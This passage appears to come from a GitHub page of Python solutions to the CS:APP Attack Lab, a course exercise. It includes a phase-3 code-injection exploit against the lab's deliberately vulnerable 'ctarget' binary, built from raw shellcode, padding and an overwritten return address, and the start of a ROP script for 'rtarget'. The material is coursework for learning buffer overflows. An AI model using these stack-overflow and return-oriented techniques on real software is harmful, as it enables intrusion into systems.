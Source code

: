 ```py
    os.system("./hex2raw < exploit.txt | ./ctarget")

### Stage 3
def phase_3():
    TOUCH_3_ADDR = 0x4017d6
    
    """
    Ex = asm(
        rf'''
        mov rdi, {GETBUF_RSP_ADDR + GETBUF_STACK_OFFSET + GETBUF_RSP_ADDR}
        push {TOUCH_3_ADDR}
        ret
        ''',
        arch='amd64',
        os='linux'
    )
    """

    Ex = b"\x48\xC7\xC7\x68\x11\x64\x55\x68\xD6\x17\x40\x00\xC3"
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(GETBUF_RSP_ADDR)
    Ex += cookie_to_hex(COOKIE)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./ctarget")

if __name__ == "__main__":
	phase_1()
	phase_2()
	phase_3()
```

### `Excode-Rtarget.py`

```py
import struct
import hashlib
import os

WORD_SIZE = 8

COOKIE = 0x6eb933c2

GETBUF_STACK_OFFSET = 0x18

Gadgets = {}
with open("Gadgets_Dict.txt", "r") as f:
    G = f.read().splitlines()
    G = [dat.split() for dat in G]
    for hsh, addr in G:
        Gadgets[hsh] = int(addr)


def p64(x: int) -> bytes:
    return struct.pack("<Q", x).ljust(WORD_SIZE, b'\x00')

def byte2sphex(x: bytes) -> str:
    string = ""
    for ch in x:
        string += hex(ch)[2:].rjust(2, '0') + ' '
    return string
```